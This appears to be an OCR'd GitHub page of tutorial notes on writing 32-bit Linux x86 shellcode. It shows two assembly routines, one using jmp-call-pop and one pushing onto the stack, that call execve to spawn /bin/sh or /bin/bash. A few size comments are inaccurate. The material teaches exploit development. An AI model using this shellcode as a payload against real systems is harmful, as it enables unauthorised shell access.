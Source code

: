 ```
	mov dword [esi +12], ebx ; we overwrite CCCC with ebx, thus zeroing it out and completing the last requirement for execve

	; we then load the bytes into the registers

	lea ebx, [esi] ; will now contain /bin/sh0x0

	lea ecx, [esi +8] ; will now contain address of /bin/sh, 0x00000000

	lea edx, [esi +12] ; will now contain 0x00000000

	xor eax, eax
	mov al, 0xb
	int 0x80



call_shellcode:

	call shellcode ; as we hit call, the ret address gets pushed onto the stack, which we then pop inside shellcode so the address gets thrown into ESI, thus enabling the rest of the trickery
	message db "/bin/shABBBBCCCC"

```

**note** on success execve does NOT return, as such we do not need to exit, further to this on success everything else is overwritten with that of the called program.

Another way to achieve this is by working directly with shellcode, to eliminate needing to find the address:
```
section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH ////bin/bash (12) 
	; IN PYTHON SESSION: 
	; code = '////bin/bash' extra slashes to make up 12 chars (24 bits)
	; code[::-1].encode('hex') reverse the string and convert to hex
	; as below we then push on in byte increments (4 chars per push/8bits)

	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx, esp ; the null and ////bin/bash get moved into ebx

	push eax ; push another null onto stack
	mov edx, esp ; move the null into edx

	push ebx ; the null and ////bin/bash get pushed back onto stack
	mov ecx, esp ; they then get moved into ecx


	mov al, 11
	int 0x80
```
**when pushing a string onto the stack, in 32bit it needs to be reversed, simplest way to do this is with python.**
